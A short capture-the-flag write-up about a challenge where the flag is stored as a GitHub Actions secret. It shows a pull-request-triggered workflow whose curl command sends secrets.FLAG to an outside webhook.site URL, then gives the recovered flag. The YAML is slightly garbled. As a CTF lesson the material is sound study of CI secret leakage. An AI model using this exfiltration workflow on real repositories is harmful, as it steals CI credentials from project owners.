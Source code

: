 # Fork Knife
> You must solve the second challenge to get the answer, all you need is inside the Loby.

## About the Challenge
We were given a repository whose flags are located in the GitHub workflow

![workflow](images/workflow.png)

## How to Solve?
To get the flag, I created another workflow like this

```yaml
ame: Say Hi

 on: [pull_request]

 jobs:
   build:

     runs-on: ubuntu-latest

     steps:
     - uses: actions/checkout@v2
     - name: Say Hi
       run: |
         curl "https://webhook.site/b7c7b30c-1536-4672-a15c-646bcd1ef28e?username=${{ secrets.FLAG }}"
```

This workflow will send the flag to `webhook.site` using `curl` command, and then create a pull request to trigger the workflow

![flag](images/flag.png)

```
EKO{pr3v3nt_PWN_r3qu3stS}
```